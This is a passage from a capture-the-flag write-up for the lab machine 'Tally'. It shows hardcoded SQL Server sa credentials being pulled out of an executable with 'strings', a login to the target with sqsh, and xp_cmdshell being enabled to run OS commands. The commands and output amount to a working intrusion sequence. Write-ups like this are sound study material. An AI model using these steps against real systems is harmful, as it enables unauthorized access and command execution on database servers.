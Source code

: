 The next step is to see the printable character strings of .EXE file.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/smb]─[root@Arthorias]─[0]─[3178]
╰─[:)] # strings tester.exe
!This program cannot be run in DOS mode.
Rich7J
~~~
~~~
SQLSTATE: 
Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
~~~
~~~
```

Ready, we have found a username and a password.  
And also with the previous information acquired, we know that these credentials apparently are from SQL Server.

## Getting shell #1

We identify with the previous credentials with *sqsh*.  
sqsh, is commandline SQL client for MS SQL and Sybase servers to connect to Sybase or Microsoft SQL servers.  
[Reference](https://sourceforge.net/projects/sqsh/)

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/smb]─[root@Arthorias]─[0]─[3178]
╰─[:)] # sqsh -S 10.10.10.59 -U sa
sqsh-2.1.7 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2010 Michael Peppler
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1>
```

After authenticating, we must enable the *xp_cmdshell* so that we can get execution of commands on our victim machine.

```zsh
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE
2> go
```
